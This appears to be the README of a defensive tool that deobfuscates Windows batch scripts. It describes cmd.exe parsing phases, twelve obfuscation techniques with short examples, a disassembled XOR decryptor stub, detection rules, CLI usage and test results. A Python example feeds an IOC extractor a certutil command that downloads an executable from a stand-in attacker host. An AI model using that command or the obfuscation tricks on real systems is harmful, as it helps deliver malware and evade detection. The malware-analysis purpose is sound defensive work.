


<div align="center">

<p align="center">
  <strong>🇺🇸 English</strong> · <a href="./docs/locales/ko.md">🇰🇷 한국어</a> · <a href="./docs/locales/zh-CN.md">🇨🇳 中文</a> · <a href="./docs/locales/es.md">🇪🇸 Español</a> · <a href="./docs/locales/hi.md">🇮🇳 हिन्दी</a><br />
  <a href="./docs/locales/ar.md">🇸🇦 العربية</a> · <a href="./docs/locales/pt-BR.md">🇧🇷 Português</a> · <a href="./docs/locales/ru.md">🇷🇺 Русский</a> · <a href="./docs/locales/fr.md">🇫🇷 Français</a> · <a href="./docs/locales/id.md">🇮🇩 Bahasa Indonesia</a>
</p>

<p align="center">
  <a href="https://github.com/maya-thorne/cmd-ast-deobfuscator"></a>
</p>

# 🛡️ cmd-ast-deobfuscator

**Multi-Pass Abstract Syntax Tree & Lexical Deobfuscation Engine for Windows Command Scripts (`cmd.exe` / `.bat`)**

[](https://github.com/maya-thorne/cmd-ast-deobfuscator/actions)
[](LICENSE)
[](https://www.python.org/)
[](docs/BATCH_OBFUSCATION_DEEP_REVERSE_ENGINEERING_ANALYSIS.md)
[](references/detection_rules/)

<sub>Engineered by **[Maya Thorne](https://github.com/maya-thorne)** · Binary Exploitation & Reverse Engineering Systems Architect</sub>

</div>

---

<span id="table-of-contents"></span>
## 📑 Table of Contents

- [📌 Architecture & Theoretical Foundations](#architecture-theoretical-foundations)
  - [⚙️ `cmd.exe` 5-Phase Parser State Machine](#cmdexe-5-phase-parser-state-machine)
  - [🔄 Multi-Pass Deobfuscation Pipeline](#multi-pass-deobfuscation-pipeline)
- [🛡️ 12 Major Obfuscation Vectors Countered](#12-major-obfuscation-vectors-countered)
- [🔬 Deep Dive: Source Code Anatomy of 7 Open-Source Tools](#deep-dive-source-code-anatomy)
- [🧬 Ghidra Binary Reverse Engineering Forensics](#ghidra-binary-reverse-engineering)
- [🚨 Detection Engineering (YARA & Sigma Rules)](#detection-engineering-rules)
- [🚀 Quickstart & CLI Usage](#quickstart-cli-usage)
- [⚡ High-Performance Native C/Rust FFI Bindings & Standalone Binary API](#native-c-rust-ffi-bindings)
- [📊 Automated Invariant Verification & Benchmarks](#automated-invariant-verification)
- [📁 Repository Architecture](#repository-architecture)
  - [📁 Repository Architecture & Directory Map](#repository-architecture-directory-map)
- [⚖️ License & Responsible Disclosure](#license-responsible-disclosure)

---

<span id="architecture-theoretical-foundations"></span>
## 📌 Architecture & Theoretical Foundations

`cmd-ast-deobfuscator` is an industrial-grade static analysis and deobfuscation framework designed for incident responders, malware analysts, and reverse engineers. It emulates the lexical evaluation phases of Microsoft Windows Command Processor (`cmd.exe`), unraveling multi-layer evasive scripts back into human-readable, deterministic abstract syntax structures.

<span id="cmdexe-5-phase-parser-state-machine"></span>
### ⚙️ `cmd.exe` 5-Phase Parser State Machine

Unlike modern script interpreters (such as Python or PowerShell) that tokenize scripts using strict LL/LR grammars, `cmd.exe` relies on a legacy 5-phase iterative scanning state machine. Adversaries abuse the discrepancies between parsing phases to evade endpoint detection and signature matching:

1. **Phase 1: Line Preprocessing & Caret Normalization** — Strips trailing carriage returns, splits lines on newline delimiters, and handles escape character sequences (`^`). Non-quoted carets negate the semantic meaning of following characters, including whitespace.
2. **Phase 2: Immediate Percent Expansion (`%VAR%`)** — Evaluates `%NAME%` environment variables, negative substring indexing (`%VAR:~-4%`), positive substring slices (`%VAR:~2,5%`), and pattern substitutions (`%VAR:search=replace%`).
3. **Phase 3: Syntactic Delimiters & Pipe Separation** — Identifies command chaining tokens (`&`, `&&`, `|`, `||`), subshell grouping parentheses (`()`), and redirection streams (`>`, `>>`, `<`).
4. **Phase 4: Delayed Expansion Evaluation (`!VAR!`)** — If `setlocal EnableDelayedExpansion` is activated, variables delimited with exclamation marks are evaluated after line segmentation, allowing iterative loops and runtime string construction.
5. **Phase 5: Subshell Dispatch & Parameter Splitting** — Extracts the binary executable name and command-line arguments, applying quotation stripping and token dispatch.

<span id="multi-pass-deobfuscation-pipeline"></span>
### 🔄 Multi-Pass Deobfuscation Pipeline

<details open>
<summary><b>📐 Architectural Pipeline Diagram & Visual Specification (Click to collapse/expand)</b></summary>
<br>

<p align="center">
  <a href="https://github.com/maya-thorne/cmd-ast-deobfuscator"></a>
</p>



</details>

---

<span id="12-major-obfuscation-vectors-countered"></span>
## 🛡️ 12 Major Obfuscation Vectors Countered

<details open>
<summary><b>1. Non-Quoted Caret Injection (캐럿 탈출 시퀀스 정화)</b></summary>

- **Mechanism**: The caret character (`^`) serves as an escape operator in `cmd.exe`. Outside quotation marks, inserting carets between characters does not modify runtime semantics but completely fractures static token signatures.
- **Obfuscated**:
  ```cmd
  c^a^l^c^.^e^x^e
  ```
- **Normalized Output**:
  ```cmd
  calc.exe
  ```
</details>

<details>
<summary><b>2. Interleaved Empty Double Quotes (빈 따옴표 접합 기법)</b></summary>

- **Mechanism**: `cmd.exe` collapses contiguous empty quotation strings (`""`) during argument parsing.
- **Obfuscated**:
  ```cmd
  p""o""w""e""r""s""h""e""l""l"".""e""x""e -NoP -w 1
  ```
- **Normalized Output**:
  ```cmd
  powershell.exe -NoP -w 1
  ```
</details>

<details>
<summary><b>3. Environment Variable Substring Slicing (환경변수 인덱스 슬라이싱)</b></summary>

- **Mechanism**: Slicing system environment variables like `%COMSPEC:~start,length%`, delayed expansion `!VAR:~start,length!`, or negative offsets `%PATH:~-10,1%` / `!VAR:~-7,3!` to dynamically assemble keywords.
- **Obfuscated**:
  ```cmd
  %COMSPEC:~19,1%%COMSPEC:~24,1%%COMSPEC:~27,1%
  !COMSPEC:~-7,3!
  ```
- **Normalized Output**:
  ```cmd
  cmd
  cmd
  ```
</details>

<details>
<summary><b>4. Dynamic String Substitution (문자열 인라인 치환 패턴)</b></summary>

- **Mechanism**: Exploits batch syntax `%VAR:search=replace%` and delayed expansion `!VAR:search=replace!` to embed randomized decoy characters.
- **Obfuscated**:
  ```cmd
  set "X=c_a_l_c"
  %X:_=%
  !X:_=!
  ```
- **Normalized Output**:
  ```cmd
  calc
  calc
  ```
</details>

<details>
<summary><b>5. High-Entropy Randomized Set Variable Chains (난수 변수 배열 셔플링)</b></summary>

- **Mechanism**: Tools like `0xidiz3r` and `Somalifuscator` emit dozens of lines setting chaotic variable arrays like `set a9f=c`, `set b12=a`, and assemble them in subsequent lines.
- **Normalized Output**: Traced via symbol table graph resolver and folded into direct commands.
</details>

<details>
<summary><b>6. UTF-16LE Byte Order Mark & Non-Printable Headers (BOM 은닉 기법)</b></summary>

- **Mechanism**: Injecting `0xFF 0xFE` with zero-width spaces or null bytes causing naive ASCII/UTF-8 loggers to truncate analysis.
- **Normalized Output**: Byte-level header detection and automatic UTF-8 stream normalization.
</details>

<details>
<summary><b>7. Hex/Octal Command Prefix Evasion</b></summary>

- **Mechanism**: Representing parameters or numeric commands in hexadecimal/octal format.
</details>

<details>
<summary><b>8. Bat2Exe PE Packaging & Dropper Stubs</b></summary>

- **Mechanism**: Compiling scripts into PE executables with resource encryption stubs (`BEDeCode`, `Bat2Exe`).
</details>

<details>
<summary><b>9. Anti-Analysis, VM & Sandbox Timing Traps</b></summary>

- **Mechanism**: Inserting `ping 127.0.0.1 -n 30 >nul`, `choice /t 10 /d y`, or registry queries targeting VMware/VirtualBox.
</details>

<details>
<summary><b>10. `for /f` Token Delimiter Reconstruction</b></summary>

- **Mechanism**: Splitting commands using custom delimiters inside nested `for /f "tokens=*" %%a in (...)` blocks.
</details>

<details>
<summary><b>11. Heavy Pipe Chaining (`|`) & Redirection</b></summary>

- **Mechanism**: Chaining commands through ephemeral stdin/stdout buffers to avoid disk artifacts.
</details>

<details>
<summary><b>12. Multi-Stage Polyglot Invocations</b></summary>

- **Mechanism**: Hybrid batch scripts executing embedded PowerShell base64 or VBScript stubs.
</details>

---

<span id="deep-dive-source-code-anatomy"></span>
## 🔬 Deep Dive: Source Code Anatomy of 7 Open-Source Tools

The suite includes line-by-line dissections and structural references from 7 seminal open-source obfuscation and deobfuscation projects:

<details open>
<summary><b>📊 Comparative Analysis of 7 Seminal Obfuscation Engines (Click to collapse/expand)</b></summary>
<br>

<table width="100%">
  <thead>
    <tr>
      <th width="5%" align="center"><nobr>#</nobr></th>
      <th width="22%" align="left"><nobr>📦 Project Name</nobr></th>
      <th width="18%" align="left"><nobr>👤 Author / Origin</nobr></th>
      <th width="28%" align="left"><nobr>⚙️ Core Mechanism</nobr></th>
      <th width="27%" align="left"><nobr>🛡️ Countermeasure</nobr></th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td align="center"><strong>01</strong></td>
      <td><strong><code>Invoke-DOSfuscation</code></strong></td>
      <td>Daniel Bohannon</td>
      <td>Environment variable slicing, string concatenation, token randomization</td>
      <td>Multi-pass static symbol evaluator &amp; caret stripper</td>
    </tr>
    <tr>
      <td align="center"><strong>02</strong></td>
      <td><strong><code>0xidiz3r</code></strong></td>
      <td>0xIdiot</td>
      <td>Chaotic set arrays, unicode spacing, variable permutation</td>
      <td>Deterministic symbol table propagation</td>
    </tr>
    <tr>
      <td align="center"><strong>03</strong></td>
      <td><strong><code>SomalifuscatorV2</code></strong></td>
      <td>KDot227</td>
      <td>Control-flow flattening, dead code spam, junk label loops</td>
      <td>Dead code elimination &amp; label graph prune</td>
    </tr>
    <tr>
      <td align="center"><strong>04</strong></td>
      <td><strong><code>batch_deobfuscator</code></strong></td>
      <td>DissectMalware</td>
      <td>Lexical heuristic AST parser</td>
      <td>Extended syntactic rule matcher</td>
    </tr>
    <tr>
      <td align="center"><strong>05</strong></td>
      <td><strong><code>Exorcism</code></strong></td>
      <td>Ares-X</td>
      <td>Dynamic variable reconstruction</td>
      <td>Variable scope resolution</td>
    </tr>
    <tr>
      <td align="center"><strong>06</strong></td>
      <td><strong><code>Bat2Exe-dehoisted</code></strong></td>
      <td>JohnDJohnD</td>
      <td>PE resource unhoisting &amp; batch extraction</td>
      <td>Header extraction &amp; payload recovery</td>
    </tr>
    <tr>
      <td align="center"><strong>07</strong></td>
      <td><strong><code>Batch-Encryption-DeCoder</code></strong></td>
      <td>Community</td>
      <td>Multi-algorithm decryptor for BEDeCode/QuickBatch</td>
      <td>Reverse cipher matching</td>
    </tr>
  </tbody>
</table>

</details>

*Detailed architectural breakdowns and source extractions are available in [`references/source-dissections/`](references/source-dissections/) and [`docs/BATCH_OBFUSCATION_DEEP_REVERSE_ENGINEERING_ANALYSIS.md`](docs/BATCH_OBFUSCATION_DEEP_REVERSE_ENGINEERING_ANALYSIS.md).*

---

<span id="ghidra-binary-reverse-engineering"></span>
## 🧬 Ghidra Binary Reverse Engineering Forensics

We conducted comprehensive Ghidra binary decompilation and memory forensic analysis on 4 key executables associated with batch compilation and runtime evasion:

```
Target Executables Triaged:
├── 01_BEDeCode.exe         (Delphi/Borland PE32, RVA: 0x00401000 - In-memory key decryption)
├── 02_example_obfuscated.exe (Bat2Exe Compiled Stub, Resource Directory: .rsrc RVA: 0x00412000)
├── 03_choice.exe           (System Anti-Sandbox Delay Binary, KERNEL32.Sleep API wrapper)
└── 04_xorStub.exe          (PE Dropper with In-Memory XOR Payload Extraction)
```

### Sample Disassembly: In-Memory Payload Decryptor (`xorStub.exe`)

<details open>
<summary><b>🔬 Ghidra Disassembly Routine: In-Memory Decryptor (Click to collapse/expand)</b></summary>
<br>

```nasm
; RVA: 0x00401240 - DecryptPayload Routine
00401240 55              PUSH       EBP
00401241 89 e5           MOV        EBP,ESP
00401243 53              PUSH       EBX
00401244 8b 45 08        MOV        EAX,dword ptr [EBP + 0x8]   ; Pointer to encrypted buffer
00401247 8b 4d 0c        MOV        ECX,dword ptr [EBP + 0xc]   ; Buffer length
0040124a 8a 5d 10        MOV        BL,byte ptr [EBP + 0x10]    ; XOR Key (0x5A)
0040124d 85 c9           TEST       ECX,ECX
0040124f 74 0c           JZ         0x0040125d
00401251 30 18           XOR        byte ptr [EAX],BL          ; In-place Byte Unmasking
00401253 40              INC        EAX
00401254 49              DEC        ECX
00401255 75 fa           JNZ        0x00401251
0040125d 5b              POP        EBX
0040125e 5d              POP        EBP
0040125f c3              RET
```

</details>

---

<span id="detection-engineering-rules"></span>
## 🚨 Detection Engineering (YARA & Sigma Rules)

Production-ready detection rules targeting evasive batch artifacts are located in [`references/detection_rules/`](references/detection_rules/):

- **Sigma**: [`references/detection_rules/sigma_batch_obfuscation.yml`](references/detection_rules/sigma_batch_obfuscation.yml) — Detects high caret frequency (`^ > 10`), environment variable slicing (`%COMSPEC:~`), and nested subshell concatenations.
- **YARA**: [`references/detection_rules/yara_batch_obfuscation.yar`](references/detection_rules/yara_batch_obfuscation.yar) — Pattern matching for Somalifuscator signatures, 0xidiz3r arrays, and Bat2Exe PE dropper stubs.

---

<span id="quickstart-cli-usage"></span>
## 🚀 Quickstart & CLI Usage

### Prerequisites
- Python 3.10 or higher
- Git

### Installation

```bash
git clone https://github.com/maya-thorne/cmd-ast-deobfuscator.git
cd cmd-ast-deobfuscator
```

### CLI Command Options

```bash
# Parse batch script and display ASCII Abstract Syntax Tree
python src/cli.py -i references/classic_samples/01_env_slicing_sample.bat --tree

# Output Mermaid flowchart diagram of AST structure
python src/cli.py -c "set X=calc & %X%.exe" --mermaid

# Output JSON AST dump with delayed expansion
python src/cli.py -c "set X=calc & !X:~0,4!.exe" --json

# Deobfuscate batch script using compiler AST normalizer
python src/cli.py -i references/classic_samples/01_env_slicing_sample.bat -o deobfuscated_output.bat

# Generate Control Flow Graph (CFG) block summary and McCabe complexity
python src/cli.py -i script.bat --cfg

# Export CFG to Mermaid flowchart or Graphviz DOT diagram
python src/cli.py -i script.bat --cfg-mermaid
python src/cli.py -i script.bat --cfg-dot

# Enable Dead Code Elimination (DCE) to prune unreferenced SET noise and dead stores
python src/cli.py -i script.bat --dce -o cleaned.bat

# Display Dead Code Elimination metrics summary
python src/cli.py -i script.bat --dce --dce-stats

# Protect specific variables from dead code elimination
python src/cli.py -i script.bat --dce --preserve-vars EXPORT_VAR,OUTPUT_KEY

# Evaluate and fold arithmetic expressions (set /a)
python src/cli.py -i script.bat --arithmetic -o cleaned.bat

# Display arithmetic expression folding metrics summary
python src/cli.py -i script.bat --arithmetic --arithmetic-stats

# Deobfuscate string reversal loops and dictionary transpositions
python src/cli.py -i script.bat --reversal -o cleaned.bat

# Display string reversal and transposition metrics summary
python src/cli.py -i script.bat --reversal --reversal-stats

# Normalize quote toggle boundaries, empty quote pairs, and nested quotes
python src/cli.py -i script.bat --quotes -o cleaned.bat

# Display quote normalization metrics summary
python src/cli.py -i script.bat --quotes --quote-stats

# Normalize I/O redirection streams, handle duplication, and device sinks
python src/cli.py -i script.bat --redirects -o cleaned.bat

# Display I/O redirection routing metrics summary
python src/cli.py -i script.bat --redirects --redirect-stats

# Deobfuscate Invoke-DOSfuscation concatenation (variable chains, delimiters, loops)
python src/cli.py -i script.bat --dosfuscation -o cleaned.bat

# Display Invoke-DOSfuscation concatenation metrics summary
python src/cli.py -i script.bat --dosfuscation --dosf-stats

# Detect 0xidiz3r, Somalifuscator, CertUtil, and batch packer signatures
python src/cli.py -i script.bat --packers-detect

# Recursively unpack multi-stage batch wrappers, droppers, and compressed streams
python src/cli.py -i script.bat --packers-unpack -o unpacked.bat

# Inspect layer transition provenance and Shannon entropy reduction (JSON / Markdown)
python src/cli.py -i script.bat --packers-layers --json
python src/cli.py -i script.bat --packers-layers --md

# Perform Control Flow De-flattening (Anti-CFF) and state machine unrolling
python src/cli.py -i script.bat --deflat -o cleaned.bat

# Force complete unrolling of deterministic CFF dispatcher loops (bounded iterations)
python src/cli.py -i script.bat --cff-unroll --cff-max-unroll 50 -o unrolled.bat

# Reconstruct CFF state machines into structured while-loops without dispatcher bounce
python src/cli.py -i script.bat --cff-structured -o structured.bat

# Display Control Flow De-flattening and CFF loop analysis report
python src/cli.py -i script.bat --cff-report

# Transpile batch script to clean PEP 8 Python 3 via IR
python src/cli.py -i script.bat --to-python -o script.py

# Transpile batch script to clean idiomatic PowerShell (.ps1) via IR
python src/cli.py -i script.bat --to-powershell -o script.ps1

# Inspect language-agnostic Intermediate Representation (IR) JSON dump
python src/cli.py -i script.bat --emit-ir

# Display Intermediate Representation compilation and transpilation telemetry
python src/cli.py -i script.bat --ir-stats

# Print colored unified diff between original obfuscated code and deobfuscated output
python src/cli.py -i script.bat --diff

# Render two-column side-by-side colored diff with Unicode borders
python src/cli.py -i script.bat --side-by-side

# Print step-by-step diff for every transformation pass that modified the AST
python src/cli.py -i script.bat --step-diff

# Display quantitative difference metrics (lines, additions, deletions, similarity ratio)
python src/cli.py -i script.bat --diff-stats

# Launch interactive terminal AST pipeline debugger (TUI)
python src/cli.py -i script.bat --inspect

# Recursively scan and deobfuscate all batch files in a directory to a target folder
python src/cli.py --scan-dir ./malware_corpus/ --output-dir ./cleaned_corpus/

# Perform high-throughput multi-threaded scan (8 workers) with JSON and CSV reports
python src/cli.py --scan-dir ./samples/ --output-dir ./dist/ --workers 8 --report-json scan_report.json --report-csv scan_report.csv

# In-place deobfuscation with automatic .bak backup creation
python src/cli.py --scan-dir ./work_scripts/ --in-place --backup

# Dry-run analysis and entropy delta reporting without modifying files
python src/cli.py --scan-dir ./archive/ --dry-run --report-md scan_summary.md

# Extract malware Indicators of Compromise (IOCs) with Markdown report to console
python src/cli.py -i malware.bat --ioc

# Display IOC extraction telemetry metrics summary
python src/cli.py -i malware.bat --ioc-stats

# Export extracted IOCs to JSON, CSV, Markdown, and OASIS STIX 2.1 Threat Intelligence bundle
python src/cli.py -i malware.bat --ioc-json ioc_report.json --ioc-csv ioc_report.csv --ioc-md ioc_report.md --ioc-stix stix_bundle.json

# Filter extracted IOCs by type and minimum confidence threshold
python src/cli.py -i malware.bat --ioc --ioc-filter url,ipv4,file_drop,lolbin --ioc-min-confidence 0.85

# Execute real-world deobfuscation benchmark suite across 12 adversarial patterns
python src/cli.py --benchmark

# Export official C ABI header to specified target path
python src/cli.py --ffi-export-header include/cmd_deobfuscator.h

# Execute native C/Rust FFI acceleration and memory zeroize roundtrip verification
python src/cli.py --ffi-test-roundtrip

# Run benchmark evaluation with JSON report export
python src/cli.py --benchmark --benchmark-engine ast --benchmark-export benchmark_report.json
```

---

<span id="native-c-rust-ffi-bindings"></span>
## ⚡ High-Performance Native C/Rust FFI Bindings & Standalone Binary API

For high-throughput incident response workflows, SIEM ingestion pipelines, and cross-language toolchains (C, C++, Rust, Go, Python), `cmd-ast-deobfuscator` provides native compiled acceleration via a Rust core (`rust/`) and a standard C ABI interface (`include/cmd_deobfuscator.h`).

### 📦 Native Shared Library Compilation (`cdylib`)

```bash
# Compile optimized native dynamic library (.dll / .so / .dylib)
cargo build --release

# Run Rust native unit tests and FFI lifecycle verification
cargo test --all-targets
```

### 🧩 C ABI Header Interface (`include/cmd_deobfuscator.h`)

The C ABI provides thread-safe opaque context handles, quantitative performance telemetry, and secure memory zeroization:

```c
#include "cmd_deobfuscator.h"
#include <stdio.h>

int main(void) {
    cmd_ffi_context_t* ctx = NULL;
    cmd_ffi_options_t options = {
        .flags = CMD_FFI_FLAG_ALL_OPTIMIZATIONS,
        .max_passes = 10,
        .timeout_ms = 5000,
        .max_unroll_depth = 100
    };

    if (cmd_ffi_context_create(&options, &ctx) != CMD_FFI_OK) {
        return 1;
    }

    const char* payload = "c^m^d.e^x^e /c echo Pwnd";
    cmd_ffi_result_t* result = NULL;
    if (cmd_ffi_deobfuscate(ctx, payload, 0, 0, &result) == CMD_FFI_OK) {
        printf("Deobfuscated: %s\n", cmd_ffi_result_get_text(result));
        cmd_ffi_result_free(result);
    }

    cmd_ffi_context_destroy(ctx);
    return 0;
}
```

### 🐍 Python Unified FFI Bridge (`src.ffi`)

The Python subsystem automatically utilizes the native compiled library when available, seamlessly falling back to the pure-Python AST pushdown automaton with 100% semantic equivalence:

```python
from src.ffi import CmdDeobfuscatorBridge, FFIFlags, zeroize_buffer

bridge = CmdDeobfuscatorBridge()
print(f"Native Acceleration Active: {bridge.is_native_accelerated}")

# Ultra-fast batch deobfuscation
res = bridge.deobfuscate("c^m^d.e^x^e /c echo Pwnd", flags=FFIFlags.ALL_OPTIMIZATIONS)
print(f"Clean Code: {res.text}")
print(f"Execution Time: {res.metrics.to_dict()['elapsed_ms']} ms")

# Malware IOC extraction and defanging
ioc_res = bridge.extract_iocs("certutil -urlcache -f http://evil.com/drop.exe", flags=FFIFlags.DEFANG_IOCS)
print(f"Extracted IOCs: {ioc_res.text}")

# Memory security zeroization
secret_buffer = bytearray(b"SENSITIVE_BATCH_TOKEN")
zeroize_buffer(secret_buffer)
```

---

<span id="automated-invariant-verification"></span>
## 📊 Automated Invariant Verification & Benchmarks

The test suite validates 552 fundamental compiler, lexer, automaton, AST normalization, delayed expansion (`!VAR!`), caret normalization, substring slicing, FOR loop parameter modifier resolution (`%~dp0`, `%~f1`), Control Flow Graph (CFG) jump table construction, Dead Code Elimination (DCE), Arithmetic Expression Folding (`set /a`), String Reversal and Transposition Automata, Quote Toggle Boundary Normalization, I/O Redirection Stream Routing, Invoke-DOSfuscation Concatenation Heuristics, 0xidiz3r & Batch Packer Signature Detection, Control Flow De-flattening (Anti-CFF), Intermediate Representation (IR) Multi-Target Transpiler (Python 3 & PowerShell), Interactive Terminal AST Inspector & Colored Diff Visualizer (TUI Debugger), High-Throughput Directory Batch Scanner & Bulk Deobfuscation Pipeline, AST-based Malware IOC Extractor, Native C/Rust FFI Bindings & Standalone Binary Distribution Pipeline, Formal cmd.exe EBNF Grammar Conformance Validation, Multi-Stage Batch Packer Recursive Unpacking & Multi-Tier Heuristic Deobfuscation, and real-world benchmark invariants:


```bash
python -m unittest discover -s tests -v
```

### Invariant Test Results:
<details open>
<summary><b>📊 Invariant Verification Test Results (Click to collapse/expand)</b></summary>
<br>

```text
test_automaton_state_transitions (test_ast_suite.TestCmdASTCompilerSuite) ... ok
test_delayed_expansion_full_pipeline (test_ast_suite.TestCmdASTCompilerSuite) ... ok
test_lexer_caret_and_quote_tokenization (test_ast_suite.TestCmdASTCompilerSuite) ... ok
test_lexer_percent_variable_detection (test_ast_suite.TestCmdASTCompilerSuite) ... ok
test_normalizer_caret_stripping (test_ast_suite.TestCmdASTCompilerSuite) ... ok
test_normalizer_environment_slicing (test_ast_suite.TestCmdASTCompilerSuite) ... ok
test_normalizer_symbol_table_propagation (test_ast_suite.TestCmdASTCompilerSuite) ... ok
test_parser_command_chaining (test_ast_suite.TestCmdASTCompilerSuite) ... ok
test_parser_parenthesized_block (test_ast_suite.TestCmdASTCompilerSuite) ... ok
test_visualizer_ascii_tree (test_ast_suite.TestCmdASTCompilerSuite) ... ok
test_visualizer_mermaid_and_json (test_ast_suite.TestCmdASTCompilerSuite) ... ok
test_deobfuscator_engine_colon_in_substitution_pattern (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_deobfuscator_engine_negative_offset_clamp_consistent (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_deobfuscator_engine_wildcard_and_backslash_substitution (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_lexer_caret_inside_delayed_expansion (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_lexer_delayed_expansion_basic (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_lexer_delayed_expansion_inside_quotes (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_lexer_delayed_expansion_slicing (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_lexer_delayed_expansion_substitution (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_lexer_escaped_caret_exclamation (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_lexer_unclosed_exclamation (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_lexer_unclosed_exclamation_inside_quotes_does_not_swallow (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_normalizer_chained_assignment_delayed (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_normalizer_chained_assignment_delayed_slicing (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_normalizer_chained_assignment_delayed_substitution (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_normalizer_chained_assignment_dynamic_variable (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_normalizer_chained_assignment_nested_percent_slicing (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_normalizer_chained_assignment_nested_percent_substitution (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_normalizer_delayed_expansion_dynamic_variable_name (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_normalizer_delayed_expansion_nested_percent_slicing (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_normalizer_delayed_expansion_resolution (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_normalizer_delayed_expansion_slicing_both_negative (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_normalizer_delayed_expansion_slicing_negative_length (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_normalizer_delayed_expansion_slicing_negative_offset (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_normalizer_delayed_expansion_slicing_positive (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_normalizer_delayed_expansion_substitution (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_normalizer_delayed_expansion_wildcard_substitution (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_normalizer_invalid_substitution_patterns_untouched (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_normalizer_unresolved_delayed_expansion_serialization (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_normalizer_unresolved_variable_with_resolved_nested_substitution_patterns (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_parser_and_normalizer_slicing_trailing_comma_zero_length (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_parser_caret_escaped_exclamation_literal (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_parser_delayed_expansion_command_target (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_parser_delayed_expansion_node (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_parser_delayed_expansion_slicing (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_parser_delayed_expansion_substitution (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_visualizer_command_target_delayed_expansion (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_visualizer_delayed_expansion_representation (test_delayed_expansion.TestDelayedExpansionAST) ... ok
test_bootstrap_set_chain (test_deobfuscator.TestBatchDeobfuscator) ... ok
test_builtin_env_negative_slicing (test_deobfuscator.TestBatchDeobfuscator) ... ok
test_caret_escaping_outside_quotes (test_deobfuscator.TestBatchDeobfuscator) ... ok
test_empty_quote_concatenation (test_deobfuscator.TestBatchDeobfuscator) ... ok
test_environment_variable_slicing (test_deobfuscator.TestBatchDeobfuscator) ... ok
test_string_substitution (test_deobfuscator.TestBatchDeobfuscator) ... ok
test_for_loop_modifier_combined_dp (test_for_param_expansion.TestForParamExpansion) ... ok
test_for_loop_modifier_search_path (test_for_param_expansion.TestForParamExpansion) ... ok
test_param_resolver_pass_fixed_point (test_for_param_expansion.TestForParamExpansion) ... ok
test_for_loop_statement_parsing (test_for_param_expansion.TestForParamExpansion) ... ok
test_dce_unreferenced_pruned (test_dce_suite.TestDeadCodeEliminationSuite) ... ok
test_dce_dead_store_overwrite (test_dce_suite.TestDeadCodeEliminationSuite) ... ok
test_dce_unreachable_pruned (test_dce_suite.TestDeadCodeEliminationSuite) ... ok
test_basic_arithmetic (test_arithmetic_suite.TestArithmeticEvaluator) ... ok
test_32bit_signed_overflow_and_underflow (test_arithmetic_suite.TestArithmeticEvaluator) ... ok
